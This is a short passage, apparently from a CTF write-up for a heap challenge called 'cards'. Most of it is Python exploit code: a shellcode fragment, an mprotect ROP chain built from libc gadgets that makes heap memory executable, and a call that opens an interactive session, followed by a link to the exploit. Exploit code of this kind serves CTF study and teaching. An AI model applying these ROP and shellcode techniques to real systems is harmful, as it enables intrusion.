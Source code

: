 ```py
		mov rax, 0x3c
		mov rdi, 0x1337
		syscall
	""")
edit(7,shellcode)
mprotect_rop =  p64(libc_base+pop_rdi)+\
		p64(heap_base)+\
		p64(libc_base+pop_rsi)+\
		p64(0x1000)+\
		p64(libc_base+pop_rdx)+\
		p64(0x7)+\
		p64(libc_base+mprotect)+\
		p64(heap_base+0x610)
sendrop(mprotect_rop)
remove(4)
io.interactive()
```
Link to the source-code and exploit: (cards)[https://github.com/hkraw/posiedonctf-cards]
